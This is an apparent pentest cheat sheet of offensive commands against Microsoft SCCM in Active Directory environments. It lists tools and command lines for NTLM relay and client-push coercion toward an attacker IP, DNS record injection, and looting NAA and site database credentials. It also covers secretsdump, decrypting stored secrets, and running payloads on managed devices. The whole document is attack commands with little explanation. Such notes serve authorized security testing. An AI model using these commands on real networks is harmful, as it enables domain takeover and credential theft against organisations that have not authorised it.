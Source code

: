 ```yaml
---
title: "SCCM"
description: "SCCM techniques and commands for Active Directory security assessment."
---
```

## recon
- `sccmhunter.py find -u <user> -p <password> -d <domain> -dc-ip <dc_ip> -debug`
  - `sccmhunter.py show -all`
- `ldeep ldap -u <user> -p <password> -d <domain> -s ldap://<dc_ip> sccm`
- `nxc smb <sccm_server> -u <user> -p <password> -d <domain> --shares`
 
## Creds-1 No credentials >>> NAA credentials || User + Pass
- Extract from pxe See no creds >>> PXE

##  Elevate-1:Relay on site systems Simple user >>> Admin on Site system
- coerce sccm site server
  - `ntlmrelayx.py -tf <site_systems> -smb2support`

## Elevate-2:Force client push Simple user >>> Admin
- `ntlmrelayx.py -t <sccm_server> -smb2support -socks # listen connection`
  - `SharpSCCM.exe invoke client-push -mp <sccm_server>.<domain> -sc <site_code> -t <attacker_ip> # Launch client push install`
    - `proxychains smbexec.py -no-pass <domain>/<socks_user>@<sccm_server>`
      - cleanup

## Elevate-3:Automatic client push Simple user >>> Relay ntlm
- Create DNS A record for non existing computer x
  - `dnstool.py -u '<domain>\<user>' -p <pass>  -r <newcomputer>.<domain> -a add -t A -d <attacker_ip> <dc_ip>`
    -  Enroll new computer x in AD  then remove host SPN from the machine account
      - `setspn -D host/<newcomputer> <newcomputer> setspn -D host/<newcomputer>.<domain> <newcomputer>`
        - wait 5m for client push
          - `ntlmrelayx.py -tf <no_signing_target> -smb2support -socks`
            - cleanup

## CRED-6 Loot creds >>> User + Pass
- SCCM SMB service (445/TCP) on a DP
  - `cmloot.py <domain>/<user>:<password>@<sccm_dp> -cmlootinventory sccmfiles.txt`
- SCCM HTTP service (80/TCP or 443/TCP) on a DP
  - `SCCMSecrets.py policies -mp http://<management_point> -u '<machine_account>$' -p '<machine_password>' -cn '<client_name>'`
  - `SCCMSecrets.py files -dp http://<distribution_point> -u '<user>' -p '<password>'`
  - `sccm-http-looter -server <ip_dp>`

## Takeover-1:relay to mssql db Simple user >>> SCCM ADMIN
- SCCM MSSQL != SSCM server
  - `sccmhunter.py mssql -u <user> -p <password> -d <domain> -dc-ip <dc_ip> -debug -tu <target_user> -sc <site_code> -stacked`
    - `ntlmrelayx.py -smb2support -ts -t mssql://<sccm_mssql> -q "<query>"`
      - coerce sccm_mssql -> attacker
        - `sccmhunter.py admin -u <target_user>@<domain> -p '<password>' -ip <sccm_ip>` 

## Takeover-2:relay to mssql server Simple user >>> Admin MSSQL
- SCCM MSSQL != SSCM server
  - `ntlmrelayx.py -t <sccm_mssql> -smb2support -socks`
    - coerce sccm_server 
      - `proxychains smbexec.py -no-pass <domain>/'<sccm_server>$'@<sccm_ip>`

## Creds-2:Policy Request Credentials Simple user >>> User + Pass
- add computer
  - `sccmwtf.py newcomputer newcomputer.<domain> <target> '<domain>\<computer_added>$' '<computer_pass>'`
    - get NetworkAccessUsername and NetworkAccessPassword
      - `policysecretunobfuscate.py`
        - delete device created after sccmadmin
  - `SharpSCCM.exe get secrets -r newcomputer -u <computer_added>$ -p <computer_pass>"`
    - cleanup

## Creds-3Creds-4 Computer Admin user >>> NAA credentials
- `dploot.py sccm -u <admin> -p '<password>' <sccm_target>`
- `sccmhunter.py dpapi  -u <admin> -p '<password>' -target <sccm_target> -debug`
- `SharpSCCM.exe local secrets -m disk`
- `SharpSCCM.exe local secrets -m wmi`

## Creds-5 SCCM admin >>> Site DB credentials
- `secretsdump.py <domain>/<admin>:'<pass>'@<sccm_target>`
  - `mssqlclient.py -windows-auth -hashes '<sccm_target_hashNT>' '<domain>/<sccm_target>$'@<sccm_mssql>`
    - `use CM_<site_code>;`
      - `SELECT * FROM SC_UserAccount;`
        - `sccmdecryptpoc.exe <cyphered_value>`

## EXEC-1/2 SCCM admin >>> lat
- `SharpSCCM.exe exec -p <binary> -d <device_name> -sms <SMS_PROVIDER> -sc <SITECODE> --no-banner`
- `sccmhunter.py admin -u <user>@<domain> -p '<password>' -ip <sccm_ip>`
    - `get_device <hostname>`
      - `interact <device_id>`
        - `script xploit.ps1`

## Cleanup
- `SharpSCCM.exe get devices -sms <SMS_PROVIDER> -sc <SITECODE> -n <NTLMRELAYX_LISTENER_IP> -p "Name" -p "ResourceId" -p "SMSUniqueIdentifier"`
  - `SharpSCCM.exe remove device GUID:<GUID> -sms <SMS_PROVIDER> -sc <SITECODE>`

## Post exploit
- as sccm admin
  - `SCCMHound.exe --server <server> --sitecode <sitecode>` >>> Users sessions